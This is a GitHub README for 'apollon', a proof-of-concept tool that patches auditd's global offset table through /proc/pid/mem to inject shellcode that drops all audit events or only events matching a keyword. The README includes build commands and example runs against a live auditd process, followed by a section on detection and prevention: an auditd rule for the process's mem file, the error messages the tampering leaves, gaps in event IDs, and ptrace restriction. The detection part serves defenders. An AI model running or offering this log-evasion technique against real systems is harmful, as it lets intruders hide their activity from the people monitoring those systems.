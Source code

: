### apollon

----

*apollon* is a proof of concept tool for blindsiding *auditd*. It works
by patching the *global offset table* (*GOT*) of *auditd* via `/proc/pid/mem`
and replacing the pointer to a *libc* function with a pointer to event
filtering shellcode.

For patching *auditd* memory, root privileges are required. This method
of tampering with *auditd* events have proven to be very stealthy. Monitoring
`/proc` using *auditd* is not that easy and no suspicious events have been
observed when running *apollon* against some popular *auditd* rule sets.

More technical details as well as detection and prevention guidance can be
found within our blog post [blindsiding auditd for fun and profit](https://code-white.com/blog/2023-08-blindsiding-auditd-for-fun-and-profit/).


### Usage

----

Since *apollon* is only a proof of concept, the supported functionalities
are limited. *apollon* ships two different shellcodes that can be
injected into *auditd*. The first one - [filter-all.asm](src/filter-all.asm) -
filters all incoming events and completely blindsides *auditd*. With this
payload, the only required argument is the *PID* of the *auditd* process:

```console
[root@auditd apollon]$ make apollon-all-x64
gcc -c src/procmem.c -o procmem.o -O3 -I include -w -ldl
gcc -c src/utils.c -o utils.o -O3 -I include -w -ldl
nasm src/filter-all.asm -o shellcode-all.bin -f bin
python3 generate-header.py shellcode-all.bin
gcc -D FILTER_ALL -c src/apollon.c -o apollon-all-x64.o -O3 -I include -w -ldl
gcc procmem.o utils.o apollon-all-x64.o -o dist/apollon-all-x64 -O3 -I include -w -ldl
strip --strip-unneeded dist/apollon-all-x64

[root@auditd apollon]$ ./dist/apollon-all-x64 427
[+] Found data segment of 427 at 0x7482dd37d000
[+] Found libc base address of 427 at 0x7482dd04d000
[+] Found offset of 'recvfrom' in libc at e7cc0
[+] Searching for pattern 0x7482dd134cc0 in data segment of 427
[+] Data segment is 2000 bytes long.
[+] Found 'recvfrom' in 427 at 0x7482dd37dea0
[+] Preparing shellcode...
[+] Replaced 1 occurences of recvfrom.
[+] Searching codecave for 23 byte shellcode...
[+] Found code cave in 427 at 0x62bddc2bfaf1
[+] Wrtiting shellcode to codecave.
[+] Replacing 'recvfrom' GOT entry with shellcode addr.
[+] auditd patched successfully.
```

Afterwards, no more events should be logged by *auditd*. The second shellcode -
[filter-selective.asm](/src/filter-selective.asm) - filters events based on a
keyword. With this payload, a second argument is expected that will be used as
a filter for *auditd* events. Each event containing the pattern will be dropped:

```console
[root@auditd apollon]$ make apollon-selective-x64
gcc -c src/procmem.c -o procmem.o -O3 -I include -w -ldl
gcc -c src/utils.c -o utils.o -O3 -I include -w -ldl
nasm src/filter-selective.asm -o shellcode-selective.bin -f bin
python3 generate-header.py shellcode-selective.bin
gcc -c src/apollon.c -o apollon-selective-x64.o -O3 -I include -w -ldl
gcc procmem.o utils.o apollon-selective-x64.o -o dist/apollon-selective-x64 -O3 -I include -w -ldl
strip --strip-unneeded dist/apollon-selective-x64

[root@auditd apollon]$ ./dist/apollon-selective-x64 427 pid=1337
[+] Found data segment of 427 at 0x72e3428a4000
[+] Found libc base address of 427 at 0x72e342574000
[+] Found offset of 'recvfrom' in libc at e7cc0
[+] Searching for pattern 0x72e34265bcc0 in data segment of 427
[+] Data segment is 2000 bytes long.
[+] Found 'recvfrom' in 427 at 0x72e3428a4ea0
[+] Preparing shellcode...
[+] Replaced 2 occurences of recvfrom.
[+] Found strstr in 427 at 0x72e342600a30
[+] Replaced 1 occurences of strstr.
[+] Found strtoul in 427 at 0x72e34259a9c0
[+] Replaced 2 occurences of strtoul.
[+] Found code cave for pattern matching in 427 at 0x5fec525332ad
[+] Wrtiting 'pid=1337' to codecave.
[+] Replaced 1 occurences of matcher pattern.
[+] Searching codecave for 264 byte shellcode...
[+] Found code cave in 427 at 0x5fec5254baf1
[+] Wrtiting shellcode to codecave.
[+] Replacing 'recvfrom' GOT entry with shellcode addr.
[+] auditd patched successfully.
```

After the above patch, all events containing `pid=1337` will be dropped. Since
*auditd* events usually consist out of multiple audit messages, each audit message
sharing the same event ID as the initially filtered message is also dropped. 


### Detection

----

A detailed technical discussion of *apollon* and some possible detection methods
are discussed within our blog post [blindsiding auditd for fun and profit](https://code-white.com/blog/2023-08-blindsiding-auditd-for-fun-and-profit/).
In this README, we only provide an overview of possible detection methods:

1. Dynamically created *auditd* rules can be used to monitor `/proc/pid/mem` of critical processes.
  The following listing shows how this can be achieved for *auditd* by applying an adjustment to the
  *auditd unit file*:

  ```systemd
  [Service]
  Type=forking
  PIDFile=/run/auditd.pid
  ExecStart=/sbin/auditd
  ExecStartPost=-/sbin/augenrules --load
  # The following line monitors write access to /proc/pid/mem of auditd
  ExecStartPost=/bin/bash -c "auditctl -w /proc/$(cat /run/auditd.pid)/mem -p wa -k process-injection"
  ```

2. Monitor the *auditd* daemon for error messages. Simply clearing the netlink output
  buffer as done by *apollon* causes error messages as shown below:

  ```
  Jul 31 13:25:02 auditd auditd[427]: Netlink message from kernel was not OK
  Jul 31 13:25:02 auditd auditd[427]: Netlink message from kernel was not OK
  Jul 31 13:25:02 auditd auditd[427]: Netlink message from kernel was not OK
  Jul 31 13:25:02 auditd auditd[427]: Netlink message from kernel was not OK
  ```

3. Look for missing event IDs in *auditd* logs. If certain event IDs are skipped, this
  may indicate tampering. The listing below shows an *auditd* log where one event was
  dropped by *apollon*:

  ```
  type=SYSCALL msg=audit(1690788664.304:980): arch=c000003e syscall=257 success=yes exit=3 a0=ffffff9c a1=7ffe5e584772 a2=0 a3=0 items=1 ppid=1022 pid=1226 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts1 ses=4294967295 comm="cat" exe="/usr/bin/cat" key="etcpasswd"ARCH=x86_64 SYSCALL=openat AUID="unset" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
  type=PATH msg=audit(1690788664.304:980): item=0 name="/etc/shadow" inode=270575 dev=ca:03 mode=0100000 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
  type=PROCTITLE msg=audit(1690788664.304:980): proctitle=636174002F6574632F736861646F77
  type=SYSCALL msg=audit(1690788671.579:982): arch=c000003e syscall=257 success=yes exit=3 a0=ffffff9c a1=7ffc22a71772 a2=0 a3=0 items=1 ppid=1022 pid=1228 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts1 ses=4294967295 comm="cat" exe="/usr/bin/cat" key="etcpasswd"ARCH=x86_64 SYSCALL=openat AUID="unset" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
  type=PATH msg=audit(1690788671.579:982): item=0 name="/etc/shadow" inode=270575 dev=ca:03 mode=0100000 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
  type=PROCTITLE msg=audit(1690788671.579:982): proctitle=636174002F6574632F736861646F77
  ```

4. If possible, restrict *ptrace* permissions e.g. by using a *Linux Security Module*.
  [Yama](https://www.kernel.org/doc/html/v4.15/admin-guide/LSM/Yama.html) represents
  one option to globally prevent access to `/proc/pid/mem` by configuring a restrictive
  `ptrace_scope`. If globally disabling *ptrace* is not an option, you may can prevent
  *ptrace* access to critical processes by writing a custom *Linux Security Module*.
